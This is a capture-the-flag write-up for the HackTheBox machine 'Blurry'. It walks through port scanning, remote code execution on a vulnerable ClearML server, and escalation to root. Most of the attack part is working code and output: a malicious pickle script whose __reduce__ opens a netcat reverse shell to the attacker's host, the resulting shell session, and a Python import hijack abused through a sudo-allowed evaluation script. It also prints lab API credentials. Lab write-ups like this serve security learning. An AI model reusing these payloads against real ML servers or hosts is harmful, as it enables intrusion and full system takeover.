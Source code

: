 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Blurry](https://app.hackthebox.com/machines/blurry)

> [!tip]- Summary with Spoilers
> - This machine was running a vulnerable version of the ClearML experimentation framework, which I exploited to gain RCE as the `jippity` user.
> - I discovered a `sudo` misconfiguration that allowed me to run a custom Python script as `root`.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Mon Jun 24 10:54:00 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp -sCV t
Increasing send delay for 10.10.11.19 from 0 to 5 due to 1993 out of 4982 dropped probes since last increase.
Warning: 10.10.11.19 giving up on port because retransmission cap hit (6).
Nmap scan report for t (10.10.11.19)
Host is up (0.095s latency).
Not shown: 65462 closed tcp ports (reset), 71 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 24 10:54:28 2024 -- 1 IP address (1 host up) scanned in 28.00 seconds
```

#### 80/tcp-http

![](_/htb-blurry-20240624-3.png)

Service scan with `whatweb`:

```console
$ whatweb -a3 http://app.blurry.htb
http://app.blurry.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.10.11.19], Script[module], Title[ClearML], nginx[1.18.0]
```

## RCE

[ClearML](https://github.com/allegroai/clearml): "Auto-Magical Suite of tools to streamline your AI workflow Experiment Manager, MLOps/LLMOps and Data-Management"

![](_/htb-blurry-20240624-1.png)

An arbitrary "Full Name" seems to work to login.

Here's the list of projects:

![](_/htb-blurry-20240624-2.png)

From there I created a new experiment under the "Black Swan" project:

![](_/htb-blurry-20240624-3.png)

And pasted that config into `clearml-init`:

```console
$ clearml-init
ClearML SDK setup process
Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration)
Or create a free account at https://app.clear.ml/settings/workspace-configuration
In settings page, press "Create new credentials", then press "Copy to clipboard".
Paste copied configuration here:
api {
  web_server: http://app.blurry.htb
  api_server: http://api.blurry.htb
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "77S5RITDEE37Y5W9GT1H"
    "secret_key" = "wt32s1Uuq6m668WJwyIF1PkG1kfQbQlV5hxn88DBvOyR4hz6Y7"
  }
}
Detected credentials key="77S5RITDEE37Y5W9GT1H" secret="wt32***"
ClearML Hosts configuration:
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb
Verifying credentials ...
Credentials verified!
New configuration stored in /home/kali/clearml.conf
ClearML setup completed successfully.
```

```python
$ cat x.py
import pickle
import os
from clearml import Task, Logger
task = Task.init(project_name='Black Swan', task_name='REV shell', tags=["review"])
class MaliciousCode:
    def __reduce__(self):
        cmd = (
            "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.10 443 > /tmp/f"
        )
        return (os.system, (cmd,))
malicious_object = MaliciousCode()
pickle_filename = 'rick.pkl'
with open(pickle_filename, 'wb') as f:
    pickle.dump(malicious_object, f)
print("Malicious pickle file with reverse shell created.")
task.upload_artifact(name='malicious_pickle', artifact_object=malicious_object, retries=2, wait_on_upload=True, extension_name=".pkl")
print("Malicious pickle file uploaded as artifact.")
```

```text
$ python3 ./x.py
ClearML Task: created new task id=a21561f590d54ca7b3b8e49efd8a89af
2024-06-24 12:02:00,128 - clearml.Task - INFO - No repository found, storing script code instead
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/a21561f590d54ca7b3b8e49efd8a89af/output/log
Malicious pickle file with reverse shell created.
Malicious pickle file uploaded as artifact.
```

```console
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.19] 41650
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(jippity) gid=1000(jippity) groups=1000(jippity)
```

## PE

```console
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

```python
jippity@blurry:~$ cat /usr/bin/evaluate_model
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.
if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi
MODEL_FILE="$1"
TEMP_DIR="/models/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"
/usr/bin/mkdir -p "$TEMP_DIR"
file_type=$(/usr/bin/file --brief "$MODEL_FILE")
# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi
/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")
    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done
/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"
if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
fi
```

```console
jippity@blurry:/models$ echo 'import os;os.system("bash")' > torch.py
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth 
[+] Model /models/demo_model.pth is considered safe. Processing...
root@blurry:/models# id
uid=0(root) gid=0(root) groups=0(root)
```
